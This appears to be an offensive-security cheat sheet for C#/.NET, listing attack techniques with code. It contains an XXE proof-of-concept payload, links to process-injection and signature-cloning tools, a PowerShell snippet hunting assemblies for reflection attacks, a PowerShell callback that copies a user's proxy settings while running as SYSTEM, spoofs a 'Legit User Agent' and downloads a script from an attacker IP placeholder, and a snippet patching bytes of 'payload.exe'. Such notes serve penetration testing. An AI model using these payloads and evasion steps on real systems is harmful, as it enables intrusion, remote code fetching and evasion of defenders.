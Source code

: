 # C\#

### Embeddd Dependencies

Install-Package Costura.Fody

### XXE

XMLDocument PoC:

```markup
<?xml version='1.0' ?><!DOCTYPE doc [<!ENTITY win SYSTEM 'http://127.0.0.1:8000/hi'>]><doc>&win;</doc>
```

This works on Net Framework &lt;= 4.0 if the Resolver was not explicitly set to null.

* [https://cheatsheetseries.owasp.org/cheatsheets/XML\_External\_Entity\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [https://www.jardinesoftware.net/2016/05/26/xxe-and-net/](https://www.jardinesoftware.net/2016/05/26/xxe-and-net/)

### Process Injection

* [https://github.com/ChadSki/SharpNeedle](https://github.com/ChadSki/SharpNeedle)

### Clone Signature

It will not verify through the chain but if the program does not check the whole chain it works ;-\)

* [https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate](https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate)

### Look for Assemblies that can be used for Reflection Attacks

```csharp
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
    ForEach-Object {
        $_.Location
        $_.GetTypes()|
            ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
                $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
            }
        } 2> $null
    }
```

### Dynamically resolve Proxy via PowerShell

Sometimes we execute as SYSTEM and still need to use the boxes proxy settings to call back to us. In this case we can resolve the current proxy settings from HKCU and copy them.

```text
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxy=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object
System.Net.WebProxy("http://$proxy")
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Legit User Agent")
$wc.DownloadString("http://<ip>/script.ps1")
```

### Convert .NET Assembly to JScript

* [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

### Edit Bytes in Binary

```text
$bytes = [System.IO.File]::ReadAllBytes("payload.exe")
$bytes[200] = 0xFF
[System.IO.File]::WriteAllBytes("payload.exe", $bytes)
```

